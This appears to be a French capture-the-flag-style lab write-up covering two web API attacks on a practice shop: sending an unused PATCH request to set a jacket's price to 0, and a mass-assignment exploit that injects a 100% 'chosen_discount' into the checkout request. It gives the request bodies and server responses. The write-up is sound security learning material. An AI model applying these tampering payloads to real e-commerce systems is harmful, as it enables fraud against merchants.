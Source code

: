 
### Finding and exploiting an unused API endpoint

En essayant de modifier le verbe de la requête vers **/api/products/1/price** on obtient le résultat suivant : 

>HTTP/2 405 Method Not Allowed
>Allow: GET, PATCH

En essayant de mettre un PATCH on a l'erreur suivante : 

    {"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}

En ajoutant le bon Content-Type et en mettant du JSON on a l'erreur suivante : 

    {"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
    
En mettant le contenu suivant, cela fonctionne : 

    {"price":0}

Le prix de la veste passe à 0 et on peut l'acheter gratuitement.

### Exploiting a mass assignment vulnerability

En essayant d'acheter un article, on peut voir une requête "GET /api/checkout" passer sur Burp. La réponse est au format suivant : 

    {
      "chosen_discount": {
        "percentage": 0
      },
      "chosen_products": [
        {
          "product_id": "1",
          "name": "Lightweight \"l33t\" Leather Jacket",
          "quantity": 1,
          "item_price": 133700
        }
      ]
    }
    
On voit que cette dernière est précédée d'une requête POST vers le même endpoint, avec le contenu suivant : 

    {"chosen_products":[{"product_id":"1","quantity":1}]}
    
En modifiant cette requête avec le paramètre "chosen_discount" vu dans la requête GET, on peut réduire le prix à 0 : 

    {
        "chosen_discount":{
            "percentage":100
        },
        "chosen_products":[
            {
                "product_id":"1",
                "quantity":1
            }
        ]
    }
